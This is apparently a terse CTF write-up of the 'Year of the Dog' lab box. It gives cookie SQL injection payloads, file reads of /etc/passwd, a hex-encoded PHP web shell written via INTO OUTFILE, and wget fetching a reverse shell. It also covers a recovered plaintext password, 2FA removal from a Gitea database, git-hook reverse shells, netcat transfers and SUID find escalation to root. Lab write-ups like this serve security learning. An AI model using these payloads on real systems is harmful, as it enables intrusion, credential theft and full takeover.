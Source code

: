 #YearOfTheDog

```
Ports:
22
80
```

Nothinginterestingfoundsearchingdirectoris,higestports.
aftercaptureburprequest,singleparametersuspectisCookie

>sqlmap-uhttp://10.10.11.217/--dump-all--level5--risk3--batch
	[02:59:05][INFO]testingconnectiontothetargetURL
	youhavenotdeclaredcookie(s),whileserverwantstosetitsown('id=5f9d79710af...8d71d695f5').

editcookieid='
	#response

	HTTP/1.1200OK
	Date:Fri,09Dec202208:00:20GMT
	Server:Apache/2.4.29(Ubuntu)
	Vary:Accept-Encoding
	Content-Length:156
	Connection:close
	Content-Type:text/html;charset=UTF-8

	Error:YouhaveanerrorinyourSQLsyntax;checkthemanualthatcorrespondstoyourMySQLserverversionfortherightsyntaxtousenear'''''atline1

###Payloads

Cookie:id='unionselect1,database()---

Cookie:id='UNIONSELECT1,group_concat(table_name)FROMinformation_schema.tablesWHEREtable_schema=database()---
	Youarenumberqueueinthequeue

Cookie:id='unionselect1,group_concat(column_name)frominformation_schema.columnswheretable_schema=database()---
Cookie:id='unionselect1,group_concat(userID)fromqueue---

nothingreallyinteresting

Trysqlinjectionreadfiles

Cookie:id='unionselect1,LOAD_FILE("/var/log/apache2/access.log")---

Cookie:id='unionselect1,LOAD_FILE("/etc/passwd")---
	SUCESS
	dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash

LOADindex.php
	require_once"config.php";

	if(!isset($_COOKIE["id"])){
		$cookie=bin2hex(random_bytes(16));
		$queueNum=rand(1,100);
		setcookie("id",$cookie,NULL,"/");
		
		$sql="INSERTINTOqueueVALUES('".$cookie."',".

UPLOAD FILES in HEX
Cookie:id='unionselect1,0x48656c6c6f20776f726c640aINTOOUTFILE'/var/www/html/test.php'---
	'HelloWorld'

after try convert "php-reverse-shell" in hexa received exceeds server limit
try upload RCE


```
 echo '<?PHP system($_GET["c"];?>' | xxd
 echo '0x3C3F5048502073797374656D28245F4745545B2263225D3B3F3E0A' | xxd -r -p
	<?PHP system($_GET["c"];?>


 echo '0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A' | xxd -r -p
 	<?PHP system($_REQUEST["c"];?>

```
Cookie: id='UNION SELECT 1,0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A INTO OUTFILE '/var/www/html/funrce.php'-- -


# First Access

http://{ip}/funrce.php?c=wget http://{ip}/reverse.php
http://{ip}/reverse.php


in /home/dylan/ found file with log {work_analysis}
read log found credentials

dylan:Labr4d0rs4L1f3

> ss -ltp
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:44269         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -

tunneling: 
>ssh -L 3000:127.0.0.1:3000 dylan@{ip}

login page with 2FA

dylan@year-of-the-dog:/gitea/gitea$ sqlite3 gitea.db 
	Command 'sqlite3' not found

sqlite3 not instaled, for login and delete "two factor auth" we can use python connect
```
 import sqlite3
 s=sqlite3.connect("gitea.db")
 s.execute("delete from two_factor")
 s.commit()
 s.close()
 exit()
```

we can connect now

find git-hooks and add command line in pre-receive and update with reverse shell

edit README.md and commit changes to gain shell

# in container

>sudo -l
	(ALL) NOPASSWORD: ALL

>sudo su root

access /data this directory exist in main system

use netcat to transfer /usr/bin/find to kali machine from dylan machine

nc {ip} 4444 > find
nc {kali@mchine} 4444 < /usr/bin/find

start python server

in container ##

wget http://{kali}/find
chmod 4755 find  		## suid permission

dylan@machine$> ./find . -exec /bin/sh -p\; -quit
root#>